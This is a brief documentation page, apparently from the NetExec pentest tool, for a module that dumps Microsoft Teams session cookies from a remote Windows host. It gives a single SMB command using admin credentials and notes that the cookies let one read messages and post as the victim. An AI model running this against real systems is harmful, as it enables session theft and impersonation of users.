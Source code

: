 # Steal Microsoft Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New NetExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec)'s contribution.&#x20;

You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```
$ nxc smb <ip> -u user -p pass -M teams_localdb
```
